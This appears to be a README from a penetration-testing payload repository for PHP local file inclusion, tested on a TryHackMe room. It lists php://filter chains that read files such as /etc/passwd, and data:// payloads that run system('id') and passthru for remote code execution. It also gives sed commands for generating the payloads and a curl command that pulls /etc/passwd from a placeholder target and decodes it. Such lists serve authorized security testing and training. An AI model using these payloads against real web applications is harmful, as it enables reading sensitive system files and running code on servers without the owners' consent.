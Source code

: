 # LFI PHP wrapper 
## `LFI-PHP-wrapper.txt`
- Tested against the playground in https://tryhackme.com/room/filepathtraversal
- The payload list given in `LFI-PHP-wrapper.txt` should be modified by replacing the placedholder (`*`) with a common filename, such as `index.php` or `/etc/passwd`.

```shell
$ sed 's/*/index.php/g' [lfi-php-wrapper-txt-filename] > lfi-php-wrappers-custom.txt
$ sed 's/*/\/etc\/passwd/g' [lfi-php-wrapper-txt-filename] > lfi-php-wrappers-custom.txt
```

Eg.

1. `php://filter/convert.base64-encode/resource=*` -> `php://filter/convert.base64-encode/resource=index.php`
2. `php://filter/convert.base64-encode/resource=*` -> `php://filter/convert.base64-encode/resource=/etc/passwd`
   
> For more comprehensive testing, the placeholder can be combined with the payload in dedicated LFI/path-traversal payload list (`LF.md`, etc.). This would effectively combine the capabilities of both wordlists.

### Script for automatic payload generation
pending...

### Theory behind the payload values
#### `php://filter` wrapper
```php
php://filter/string.rot13/resource=* 
php://filter/string.toupper/resource=* 
php://filter/convert.base64-encode/resource=* 
php://filter/string.rot13|string.rot13/resource=*
php://filter/read=string.rot13|string.rot13/resource=*
php://filter/string.rot13|convert.base64-encode/resource=*
php://filter/convert.base64-encode|string.rot13/resource=*
php://filter/read=string.rot13|convert.base64-encode/resource=*
php://filter/read=convert.base64-encode|string.rot13/resource=*
php://filter/string.toupper|string.rot13|string.rot13/resource=*
php://filter/read=string.toupper|string.rot13|string.rot13/resource=*
php://filter/zlib.deflate/resource=*
php://filter/bzip2.compress/resource=*
php://filter/zlib.deflate|convert.base64-encode/resource=*
php://filter/bzip2.compress|convert.base64-encode/resource=*
```
**variations derived from:**
1. usage of different PHP filters (https://www.php.net/manual/en/filters.php)
2. chaining filters using `|`
3. using `php://filter/read=` instead of `php://filter`


#### `data://filter` wrapper
```php
data://text/plain;base64,PD9waHAgc3lzdGVtKCdpZCcpOyA/Pg==
data:text/plain,<?php%20system('id');%20?>
data:text/plain,%3C%3Fphp%20system%28%27id%27%29%3B%20%3F%3E
data%3Atext%2Fplain%2C%3C%3Fphp%20system%28%27id%27%29%3B%20%3F%3E
data://text/plain,<?php%20eval(\"system('id');\");%20?>
```
**variations derived from:**
1. using both base64 (`data://text/plain;base64`) and plain text input (`data://text/plain`, `data:text/plain`)
2. url encoding variations:
- encoding special chars, different parts of the payload, and encoding an already encoded (first layer with non special char) payload
 - `data://text/plain,<?php passthru('id'); ?>` -> `data://text/plain,%3C?php%20passthru('id');%20?%3E`, `data%3A%2F%2Ftext%2Fplain%2C%3C%3Fphp%20passthru%28%27id%27%29%3B%20%3F%3E`  
 - `data://text/plain,<?php%20passthru('id');%20?>` -> `data://text/plain,%3C?php%2520passthru('id');%2520?%3E`, `data%3A%2F%2Ftext%2Fplain%2C%3C%3Fphp%2520passthru%28%27id%27%29%3B%2520%3F%3E`
   
3. utilizing various methods for achieving RCE: `system('id');`, `eval(\"system('id');\");`, `passthru(\"system('id');\");`

#### `php://stdin` wrapper
#### `expect://` wrapper
#### `zip://` wrapper

### Examples of working payload
1. ***bzip2 + base64 encode***
```php
php://filter/bzip2.compress|convert.base64-encode/resource=*
php://filter/read=bzip2.compress|convert.base64-encode/resource=*
```
- This will output a base64-encoded value that gives a bzip2 compressed data when decoded

Eg.
```shell
$ curl https://[target].com/page?=php://filter/bzip2.compress|convert.base64-encode/resource=/etc/passwd > output.txt

# extract base64 string
$ cat output.txt

$ echo [base64 string] | base64 -d | bzip2 -d
...
```
